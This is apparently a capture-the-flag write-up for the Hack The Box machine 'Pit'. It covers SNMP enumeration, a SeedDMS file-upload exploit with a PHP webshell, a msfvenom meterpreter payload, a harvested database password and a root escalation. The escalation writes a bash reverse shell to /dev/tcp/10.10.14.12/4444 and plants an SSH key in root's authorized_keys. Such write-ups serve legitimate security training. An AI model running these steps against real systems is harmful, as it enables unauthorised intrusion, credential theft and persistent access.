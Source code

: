 ![PIT](images/banner.png)

```
Not shown: 1957 filtered ports
PORT      STATE         SERVICE           VERSION
22/tcp    open          ssh               OpenSSH 8.0 (protocol 2.0)
80/tcp    open          http              nginx 1.14.1
9090/tcp  open          ssl/zeus-admin?
68/udp    open|filtered dhcpc
161/udp   open          snmp              SNMPv1 server; net-snmp SNMPv3 server (public)
764/udp   open|filtered omserv
999/udp   open|filtered applix
1034/udp  open|filtered activesync-notify
1234/udp  open|filtered search-agent
1718/udp  open|filtered h225gatedisc
2002/udp  open|filtered globe
3296/udp  open|filtered rib-slm
5632/udp  open|filtered pcanywherestat
```

So this machine runs webservices at 80 and 9090 and snmp at 161.

![loginform](images/Weboberflaeche_p9090_loginform.png)

The webpage gives us a loginform for CentOS but we couldn't get anything with standard credentials.

Besides pit.htb we found dms-pit.htb in the certificate:

![cert](images/cert.png)

Enumerating the snmp we found a lot of oids with 
```
snmpwalk -v 1 -c private 10.129.152.198
```
but nothing really usefull.

After some search we digged deeper in snmp with:
```
snmpwalk -v 1 -c private 10.129.152.198 1.3.6
```

There we found 2 interesting things: A user called 'michelle' and a path '/var/www/html/seeddms51x/seeddms'.

The path gives us the hint to visit pit-dms.htb/seeddms51x/seeddms:

![seeddms](images/SeedDMS_Oberflaeche_loginform.png)

Just by trying UserID michelle from above and the password michelle we got access to the dms:

![seeddmsloggedin](images/SeedDMS_Oberflaeche_eingeloggt.png)

Searching for some vulnerabilities for SeedDMS we found: 
https://www.exploit-db.com/exploits/47022.
The test runs fine, so we can try to get a shell.

So you can upload a file at:

![seeddmsfileupload](images/SeedDMS_Zielverzeichnis.png)

We used a webshell (for example https://raw.githubusercontent.com/Arrexel/phpbash/master/phpbash.php). You can open the file at http://dms-pit.htb/seeddms51x/data/1048576/[FILENUMBER]/1.php (You can find the FILENUMBER after the upload in the url or by hovering over the file name).
After enumeration we even used a meterpreter session for better access. For example:
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.14.12 LPORT=4444 -f raw > mp.php
```
and catching the meterpreter with a exploit/multi/handler in the msfconsole.
At this point you are user nginx and can find a config file '/var/www/html/seeddms51x/conf/settings.xml' which gives the next hint:
```
<database dbDriver="mysql" dbHostname="localhost" dbDatabase="seeddms" dbUser="seeddms" dbPass="ied^ieY6xoquu" doNotCheckVersion="false">
```
Using the password 'ied^ieY6xoquu' you can log in as 'michelle' at CentOS in the log in form at https://pit.htb:9090/ from the beginning:

![CentOSloggedin](images/Weboberflaeche_p9090_eingeloggt.png)

At the tools section you can find a terminal for user michelle on the machine and get the user flag.

Running LinPEAS we found an uncommon ACL for '/usr/local/monitoring'. Michelle is allowed to write and execute in there but not to read. (getfacl -t -s -R -p /usr/local/monitoring). That's quite uncommon and got us to dig further here. We need to find out when it will be executed...
By using the command 'monitor' we found the hook at the bin folder.
Looking at the script:
```
[michelle@pit bin]$ cat monitor
#!/bin/bash

for script in /usr/local/monitoring/check*sh
do
    /bin/bash $script
done
```
we can see that anything like check\*sh is going to be executed (maybe.. if it's triggered by something). Just by writing a 'check1.sh' in '/usr/local/monitoring' didn't get us anything so we had to trigger the execution somewhere else.
Remembering the snmp walk there was something like a monitoring function. We managed to find and call it with:
```
snmpwalk -v 1 -c public 10.129.152.198 1.3.6.1.4.1.8072.1.3.2
```
With a command like whoami in a check1.sh written by michelle into the monitoring folder you can see that it is executed by root. Dropping a shell in it was a bit weird, we didn't had full access and some problems with priveleges but you can fix that by dropping your RSA key in the authorized_keys file of root and connect via ssh.

The whole process looks like:
- Write a reverse shell as michelle into the monitoring folder:
```
echo "bash -i > /dev/tcp/10.10.14.12/4444 0>&1" > /usr/local/monitoring/check1.sh
```
- Catch the shell and Echo your key into the authorized_keys file of root
- Connect with ssh 

![trigger](images/snmpwalk_sshconnection.png)
